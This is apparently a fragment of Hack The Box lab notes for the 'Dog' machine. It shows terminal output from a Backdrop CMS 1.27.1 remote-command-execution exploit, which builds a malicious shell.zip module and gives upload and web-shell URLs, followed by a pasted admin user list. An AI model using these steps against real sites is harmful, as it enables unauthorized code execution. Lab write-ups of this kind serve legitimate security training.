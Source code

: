 ```

┌──(noah㉿noah)-[~/Downloads/HTB/Dog]
└─$ python3 52021.py http://10.10.11.58/
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.zip
Go to http://10.10.11.58//admin/modules/install and upload the shell.zip for Manual Installation.
Your shell address: http://10.10.11.58//modules/shell/shell.php


```

read the output carefully 


username: 

|                  |                                                                                            |        |                 |                 |                 |                 |                                                                                                         |
| ---------------- | ------------------------------------------------------------------------------------------ | ------ | --------------- | --------------- | --------------- | --------------- | ------------------------------------------------------------------------------------------------------- |
|                  | [tiffany](http://10.10.11.58/?q=accounts/tiffany "View user profile.")                     | Active | - Administrator | 1 year 1 month  | 1 year 1 month  | 23 sec          | - [Edit](http://10.10.11.58/?q=user/10/edit&destination=admin/people/list)<br>- List additional actions |
| Update this item | [rosa](http://10.10.11.58/?q=accounts/rosa "View user profile.")                           | Active | - Administrator | 1 year 2 months | 1 year 2 months |                 | - [Edit](http://10.10.11.58/?q=user/8/edit&destination=admin/people/list)<br>- List additional actions  |
| Update this item | [axel](http://10.10.11.58/?q=accounts/axel "View user profile.")                           | Active | - Administrator | 1 year 2 months | 1 year 2 months |                 | - [Edit](http://10.10.11.58/?q=user/7/edit&destination=admin/people/list)<br>- List additional actions  |
| Update this item | [morris](http://10.10.11.58/?q=accounts/morris "View user profile.")                       | Active | - Administrator | 1 year 2 months | 1 year 2 months |                 | - [Edit](http://10.10.11.58/?q=user/6/edit&destination=admin/people/list)<br>- List additional actions  |
| Update this item | [john](http://10.10.11.58/?q=accounts/john "View user profile.")                           | Active | - Administrator | 1 year 2 months | 1 year 2 months |                 | - [Edit](http://10.10.11.58/?q=user/5/edit&destination=admin/people/list)<br>- List additional actions  |
| Update this item | [dogBackDropSystem](http://10.10.11.58/?q=accounts/dogbackdropsystem "View user profile.") | Active | - Administrator | 1 year 2 months | 1 year 2 months | 1 year 1 month  | - [Edit](http://10.10.11.58/?q=user/3/edit&destination=admin/people/list)<br>- List additional actions  |
| Update this item | [jobert](http://10.10.11.58/?q=accounts/jobert "View user profile.")                       | Active | - Administrator | 1 year 2 months | 1 year 2 months | 1 year 2 months | - [Edit](http://10.10.11.58/?q=user/2/edit&destination=admin/people/list)<br>- List additional actions  |
| Update this item | [jPAdminB](http://10.10.11.58/?q=accounts/jpadminb "View user profile.")                   |        |                 |                 |                 |                 |                                                                                                         |